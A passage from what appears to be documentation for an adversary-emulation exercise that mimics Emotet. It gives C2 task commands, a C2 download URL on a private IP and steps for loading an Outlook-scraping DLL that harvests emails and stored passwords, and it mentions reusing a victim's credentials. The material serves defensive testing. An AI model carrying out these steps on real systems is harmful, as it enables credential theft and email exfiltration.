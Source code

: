 One of the emails contains credentials for another user, bill@oz.local, which will be used in the next step.

Download Info:

```
URL (HTTP GET): http://192.168.0.4:80/modules

Download occurs over HTTP. All traffic is AES encrypted and base64 encoded in transit.

File Write:     C:\Windows\SysWOW64\Outlook.dll
```

---

### :biohazard: Procedures

Enumerate processes.

```bash
# Emotet has been observed enumerating local processes.[17]

./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```
[Source Code](hostdiscovery.cpp#L172)


Download Outlook Scraper DLL from C2 channel (192.168.0.4:80 / HTTP) to current working directory.

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```
[Source Code](comms.cpp#L114)

Load Outlook Scraper DLL into emotet's address space via call to LoadLibraryW() and GetProcAddress().

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```
[Source Code](loadoutlookscraper.cpp#L16)

Scrape email content from Outlook inbox via _popen call to PowerShell.

```bash
# Emotet has been observed leveraging a module that scrapes email data from Outlook.[3]

# Emotet has been observed leveraging a module that retrieves passwords stored on a system for the current logged-on user. [7][3]

./evalsC2client.py --set-task DOROTHY_DABB41A5 5
```
[Source Code](outlook.cpp#L64)

[_popen info, because I've never heard of it either](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/popen-wpopen?view=msvc-160)


Scrape email addresses from inbox.
